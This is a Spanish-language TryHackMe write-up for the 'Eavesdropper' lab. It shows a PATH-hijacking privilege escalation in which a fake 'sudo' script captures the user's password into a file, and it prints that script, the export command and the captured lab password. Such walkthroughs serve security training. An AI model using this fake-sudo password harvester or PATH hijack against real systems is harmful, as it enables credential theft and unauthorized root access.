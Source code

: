 ```yaml
---
title: Eavesdropper - Tryhackme
date: 2024-02-16
categories: [Write up, Linux, Tryhackme]
tags: [RSA,path hijacking,easy]     # TAG names should always be lowercase
---
```



En la maquina `Eavesdropper` tendremos que escalar privilegios  ya que se nos otorgo una id_rsa del usuario frank para poder iniciar sesión. En la escalada de privilegios se trata de simular o engañar a usuario que esta ejecutando un `sudo cat /etc/shadow`, en este contexto nosotros simulamos el binario `sudo` para preguntar la contrseña y asi obtenerla.

![20240213174424.png](20240213174424.png)

Link [Eavesdropper](https://tryhackme.com/room/eavesdropper)

- Created by  [tryhackme](https://tryhackme.com/p/tryhackme) and  [JohnHammond](https://tryhackme.com/p/JohnHammond) and  [cmnatic](https://tryhackme.com/p/cmnatic) and  [timtaylor](https://tryhackme.com/p/timtaylor) and  [THMDan](https://tryhackme.com/p/THMDan)

## Escalada de privilegios

Para hacer uso la `idrsa.id-rsa` el cual debemos dar permisos con el comando `chmod 600 idrsa.id-rsa`. Ahora iniciamos sesión y debemos de poder iniciar sesión. 

```php
❯ ssh -i idrsa.id-rsa frank@10.10.77.111
```

### Usuario: frank
Iniciamos sesión como el usuario `frank`

![20240213175455.png](20240213175455.png)

Enumerando el procesos veremos que se ejecuta `sudo cat /etc/shadow` cada cierto tiempo

![20240213194050.png](20240213194050.png)

### Path Hijacking

Para obtener una shell como `root` 

```php
frank@workstation:/tmp$ echo $PATH                                                                                                                                                        
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin                           
frank@workstation:/tmp$                                                                                                                                                                    
```

Crearemos un archivo  llamado `sudo` en el cual ingresaremos la siguiente :

```php
#!/bin/bash

read -sp  '[sudo] password for frank: ' password
echo $password > /home/frank/pass.txt
```

1. `read -sp '[sudo] password for frank: ' password`: Esta línea utiliza el comando `read` para solicitar al usuario que ingrese una contraseña. Los parámetros `-s` y `-p` se utilizan para mantener la entrada en silencio (para ocultar la entrada de la contraseña) y para mostrar un mensaje de solicitud antes de que el usuario ingrese la contraseña, respectivamente. En este caso, el mensaje de solicitud es `'[sudo] password for frank: '`.
    
2. `$password > /home/frank/pass.txt`: Después de que el usuario ingrese la contraseña, se almacena en el archivo `/home/frank/pass.txt`. El contenido de la variable `$password` se redirige (`>`) al archivo `pass.txt`, lo que significa que el contenido del archivo será la contraseña ingresada por el usuario.

Ahora le debemos dar permisos 

```php
frank@workstation:~$ chmod +x sudo
```

![20240213214831.png](20240213214831.png)

Lo que esta pasando es que al ejecutar `sudo cat /etc/shadow`, se detiene a ingresar la contraseña por la que creamos un script llamado `sudo` que simulara lo que hace el sudo, primero le pediremos al usuario la contraseña con `read -sp '[sudo] password for frank: ' password` y luego la almacenaremos en `/home/frank/pass.txt`. Ahora lo que haremos será secuestrar el PATH

```php
frank@workstation:~$ export  PATH=/home/frank:$PATH
```

- `export`: Este comando se utiliza en shell scripts de Unix y Linux para establecer o modificar el valor de una variable de entorno. En este caso, se utiliza para exportar la variable `PATH` para que esté disponible para los subprocesos del shell actual.
    
- `PATH=/home/frank:$PATH`: Esto asigna un nuevo valor a la variable `PATH`. En lugar de simplemente sobrescribir el valor actual de `PATH`, este comando agrega `/home/frank` al principio del valor existente de `PATH`, seguido de `:` para separar los distintos directorios en la variable `PATH`. `$PATH` se refiere al valor actual de `PATH`, por lo que esta parte asegura que los directorios que ya estaban en `PATH` se mantengan.

![20240213215220.png](20240213215220.png)

Una vez preparado todo saldremos de la sesión logeado y luego  ingresaremos de nuevo y asi obtendremos la contraseña

![20240213215252.png](20240213215252.png)

```php
frank : !@#frankisawesome2022%*
```

Ahora teniendo la contraseña podremos enumerar con `sudo -l` y luego con `sudo su` obtendremos una shell como root 

![20240213220133.png](20240213220133.png)

### Usuario : root

![20240213220158.png](20240213220158.png)


:P